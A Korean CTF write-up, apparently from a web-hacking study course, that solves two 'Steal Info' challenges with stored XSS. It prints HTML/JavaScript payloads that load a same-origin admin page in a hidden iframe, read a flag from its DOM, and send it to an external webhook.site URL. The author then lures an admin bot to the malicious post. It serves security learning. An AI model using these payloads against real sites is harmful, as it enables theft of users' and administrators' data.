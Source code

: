 # 웹 해킹 스터디 11주차 과제: Stored XSS 기반 Same-Origin DOM 데이터 탈취

## 개요

- 이 문서는 Stored XSS 취약점과 Same-Origin 정책을 악용한 DOM 정보 탈취 시나리오를 실습한 기록입니다.
- 주어진 웹 애플리케이션에서 민감 정보가 포함된 페이지를 `iframe`으로 불러오고, JavaScript를 이용해 내부 DOM에 접근하여 데이터를 추출한 뒤 외부 서버로 전송하는 방식으로 공격을 수행하였습니다.
- 공격자는 게시판 등의 기능을 활용해 악성 HTML 문서를 업로드하고, 피해 사용자가 해당 게시글을 열도록 유도함으로써, 사용자의 인지 없이 자동으로 DOM 내 민감 정보가 유출되도록 구성하였습니다.
- 본 실습의 핵심은 공격 스크립트 삽입, 동일 출처 기반의 iframe DOM 접근, 외부 전송 방식 등 실제 공격 흐름을 구성하여, XSS 취약점이 **단순 스크립트 실행을 넘어 정보 유출로도 직결될 수 있음을 재현**하는 데 있습니다.

---

## CTF 문제 풀이

### Steal Info

![취약점 있는 곳](./screenshots/steal1_post.png)

- 게시글 작성 기능 중 **내용(body)** 입력란에 XSS 취약점이 존재함을 확인하였다.

![타겟 할 웹사이트](./screenshots/target_html.png)

- 누구나 접근 가능한 페이지(mypage.html)와 동일한 구조의 관리자 페이지 내부 내 정보 영역에 플래그가 숨겨져 있으나, 직접 접근 시 관리자 권한이 없어 차단되는 구조이다.

- 확보한 정보를 활용해, 비인가 사용자가 관리자 페이지 내부 정보를 탈취하는 시나리오를 구성하고 공격을 수행할 것 이다.

![플래그가 포함된 DOM 구조](./screenshots/target_card-text.png)

- 위의 `<p class="card-text">` 태그를 이용해, DOM 기반 정보 추출을 시도할 것 이다.

**다시 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**
```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementsByClassName('card-text')[1].textContent;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](./screenshots/steal1_payload.png)

- 이후 **악성 게시물의 URL을 복사하여 관리자 봇에게 전달**함으로써, 해당 페이지에 접근하도록 유도했다.

![관리자에게 URL 전송](./screenshots/steal1_access_admin.png)

- URL이 정상적으로 전달되었으며, 이후 Webhook 로그를 통해 DOM 정보가 외부로 유출된 것을 확인할 수 있다.

![플래그 획득](./screenshots/steal1_flag.png)

이와 같은 방식으로 **관리자 권한 없이 플래그를 탈취하는 데 성공**하였다.

---

### Steal Info 2

![타겟 할 곳](./screenshots/steal2_burp_suite.png)

- 위 사진의 `<input id="userInfo">` 요소는 관리자 권한으로 접근할 경우, 해당 필드의 `placeholder` 속성에 플래그가 포함되어 있다.

**이 정보를 토대로 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**
```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php?user=123" style="display:none" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementById("userInfo").placeholder;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](./screenshots/steal2_post.png)

- `iframe`에 `style="display:none"` 속성을 설정하여, **외부 페이지의 DOM 접근과 form 전송은 가능하게 유지하면서도 UI 요소가 노출되지 않도록 구성**했다. 이를 통해 관리자가 공격 페이지에 접근하더라도 화면 상으로는 아무런 변화가 없어 의심을 피할 수 있다.

사용자가 직접 게시물 클릭 시:

![게시물 클릭](./screenshots/steal2_access.png)

- 게시글을 클릭하면, 삽입된 스크립트를 통해 현재 사용자의 `userInfo` 요소에 설정된 **placeholder 값**인 `"Nothing Here..."`가 Webhook으로 전송되는 것을 확인하였다.

- 이걸 이용하여 **URL을 복사하여 관리자 봇에게 전달**할 것 이다.

![관리자에게 URL 전송](./screenshots/steal2_access_admin.png)

- 관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도한 후

**결과:**

![플래그 획득](./screenshots/steal2_flag.png)

결과적으로, 관리자 권한 없이 플래그를 획득하는 데 성공했다.



